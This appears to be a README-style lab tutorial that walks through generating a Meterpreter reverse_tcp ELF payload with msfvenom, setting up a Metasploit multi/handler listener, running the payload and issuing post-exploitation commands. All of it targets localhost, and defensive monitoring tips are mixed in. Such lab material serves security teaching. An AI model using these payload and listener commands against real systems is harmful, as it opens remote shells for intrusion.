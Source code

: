 # 🛠️ Meterpreter Session Exploitation Project — Instructions (Conceptual & Defensive Focus)

This file provides a **step-by-step walkthrough** of the project in a **safe, educational environment**.
⚠️ **Important:** All instructions are conceptual or run locally on your own machine. Do **not** target unauthorized systems.

---

## 📦 Step 0: Prerequisites

Make sure you have:

*   Linux environment (Ubuntu/Debian recommended)
*   **Nmap** for service scanning
*   **Metasploit Framework** for conceptual payload generation
*   Terminal/CLI familiarity

---

## 0.1 Install Nmap

```bash
sudo apt update
sudo apt install nmap -y
```

## 0.2 Verify Installation

```bash
nmap --version
```

Expected output (example):

```less
Nmap version 7.93 ( https://nmap.org )
```

## 🔎 Step 1: Reconnaissance — Nmap Service Scan

Scan your local system to see open ports and service versions:

```bash
nmap -sV -p- 127.0.0.1
```

*   `-sV` → Detect service/version
*   `-p-` → Scan all ports

Example Output (conceptual):

| Port | Service | Version    | Defensive Notes                     |
| :--- | :------ | :--------- | :---------------------------------- |
| 22   | ssh     | OpenSSH 8.2 | Monitor for brute-force attempts    |
| 80   | http    | Apache 2.4 | Check patch level and misconfigs    |

**Defensive Tip:** Track log events for unusual port scans or repeated connections.

## 🖥️ Step 2: Generate Conceptual Payload

Objective: Understand how attackers deliver a reverse shell using `msfvenom`.

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f elf -o shell64.elf
chmod +x shell64.elf
```

*   `-p` → Payload type
*   `-f elf` → Linux executable
*   `LHOST`/`LPORT` → Listener host/port

**Defensive Tip:** Watch for new executables in user directories (`/home/*/`) or temp folders. Check permissions:

```bash
ls -lah /home/*/
find /tmp/ -type f -perm /111
```

## 🔄 Step 3: Set Up Metasploit Listener

Objective: Prepare the listener (C2) to receive the payload (conceptual).

```bash
msfconsole
```

Configure handler:

```bash
use exploit/multi/handler
set PAYLOAD linux/x64/meterpreter/reverse_tcp
set LHOST 127.0.0.1
set LPORT 4444
run
```

**Defensive Tip:** Monitor processes listening on unexpected ports and alert on unknown network traffic.

## 🚀 Step 4: Simulate Payload Execution

Simulate victim execution:

```bash
./shell64.elf
```

**Defensive Notes:**

Check processes created by unprivileged users:

```bash
ps aux --sort=start_time | tail -n 20
```

Inspect system logs:

```bash
journalctl -xe
tail -f /var/log/auth.log
```

## 🧩 Step 5: Post-Exploitation Exploration (Conceptual)

Attacker perspective (conceptual commands):

```text
getuid   # Who am I?
sysinfo  # System information
pwd      # Current directory
```

Defensive perspective:

Detect unusual processes or parent-child relationships:

```bash
ps -ef --forest
lsof -i
```

⚠️ **Disclaimer**
This project is strictly educational and defensive.
Do not use these techniques outside controlled environments where you have explicit permission.
```
